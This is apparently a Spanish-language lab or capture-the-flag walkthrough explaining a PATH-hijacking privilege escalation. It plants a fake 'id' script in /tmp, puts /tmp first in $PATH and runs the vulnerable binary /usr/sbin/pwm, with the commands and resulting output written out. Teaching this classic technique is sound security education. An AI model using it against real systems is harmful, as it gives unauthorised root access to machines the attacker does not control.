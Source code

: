 🔹 Paso 1: Crear un script falso llamado id
echo '#!/bin/bash' > /tmp/id


Esto crea un archivo vacío en /tmp/id y le pone como primera línea:

#!/bin/bash


Esto indica que ese archivo es un script de Bash.

echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id


Esto añade una línea al script que imprimirá este texto falso:

uid=33(think) gid=33(think) groups=(think)


Este mensaje imita lo que normalmente imprime el comando id, pero tú lo controlas.

🔹 Paso 2: Hacerlo ejecutable
chmod +x /tmp/id


Esto le da permisos de ejecución a tu archivo, para que se pueda ejecutar como un programa.

🔹 Paso 3: Modificar la variable de entorno $PATH
export PATH=/tmp:$PATH


La variable $PATH es una lista de carpetas donde el sistema busca los comandos que ejecutas (como ls, id, cat, etc).

Al hacer esto, le dices al sistema:

“Cuando ejecutes cualquier comando, primero busca en /tmp, y luego en el resto de rutas.”

🔹 Paso 4: Ejecutar el binario vulnerable
/usr/sbin/pwm


Este binario (ya compilado por otro, tú no lo hiciste) internamente ejecuta el comando id para ver quién es el usuario actual.
Pero NO usa la ruta completa (/usr/bin/id), simplemente ejecuta:

id


Como tú ya cambiaste el $PATH, el sistema encuentra primero tu archivo falso /tmp/id y lo ejecuta.

🧪 Resultado:
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think


Este mensaje no lo genera el sistema real, lo genera tu script falso.

Después de eso, el binario pwm sigue ejecutándose y muestra datos reales que no tienen que ver con tu script (como los nombres jose1006, jose1001teles, etc.).

🧠 ¿Por qué esto es importante?

Si un programa se ejecuta con permisos elevados (por ejemplo, como root) y tú puedes manipular el PATH, podrías ejecutar un script que te dé acceso de root.

Esto es una técnica clásica de escalada de privilegios.
